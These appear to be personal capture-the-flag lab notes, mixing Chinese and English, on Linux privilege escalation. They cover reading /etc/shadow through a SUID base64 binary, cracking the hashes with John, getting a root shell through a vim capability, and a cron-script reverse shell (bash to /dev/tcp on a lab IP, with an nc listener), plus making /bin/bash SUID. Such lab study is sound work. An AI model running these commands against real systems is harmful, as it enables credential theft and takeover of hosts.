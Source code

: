 			~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
			--> cat /etc/passwd
			~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
			--> go to /tmp 建立passwd和shadow檔案
				--> copy /etc/passwd and /etc/shadow
				
			--> find / -type f -perm -04000 -ls 2>/dev/null
				=> file  what command that have suid <-- we found base64
			
				--> then use : /usr/bin/base64 /etc/shadow | /usr/bin/base64 -d
				--> copy to file  to kali 
	
			--> kali : 
				--> unshadow passwd Shadow | tee hash
				--> 破解使用者的密碼 :
					--> sudo john --wordlist=/usr/share/wordlists/rockyou.txt hash

			~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
			--> 尋找flag3.txt檔  : find . -name flags3.txt 2>/dev/null
			 --> /usr/bin/base64 flag3.txt | /usr/bin/base64 -d
			 
### Capabilities : 
		--> getcap 工具列出啟用的功能 : have to wait
			=> getcap -r / 2>/dev/null
				=>沒有設定 SUID 位元 :  /home/alper/vim = cap_setuid+ep
				
		--> 啟動一個 root shell	:
			--> GTFOBins : https://gtfobins.github.io/
			
			--> check python verion 
			--> ./vim -c ':python3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
			--> ./view -c ':python import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
				
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
		--> Task : 
			--> ssh karen@10.10.77.33 | Password1	
				--> getcap -r / 2>/dev/null =?vim | view
				--> ./vim -c ':python3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
				--> bash -i 
					=>root@ip-10-10-77-33:~# 
				--> find / -name flag4.txt 2>/dev/null
			
### Cron Jobs : 
		--> 用於在特定時間執行腳本或二進位檔案
		--> /etc/crontab => to find a sh
		
		--> 啟動反向 shell : change the sh :  
			--> nano backup.sh 
			~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
			1. revershell : 
				#!/bin/bash
				bash -i >& /dev/tcp/10.11.92.230/6666 0>&1
			~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~	
			--> chmod 777 backup.sh 
			--> sudo nc -nlvp 6666
			~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~		
			2. in-line
				#!/bin/bash 
				chmod u+s /bin/bash #u+s 用來授予 SUID 權限
			~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~	
			--> chmod 777 backup.sh 
			--> /bin/bash -p
			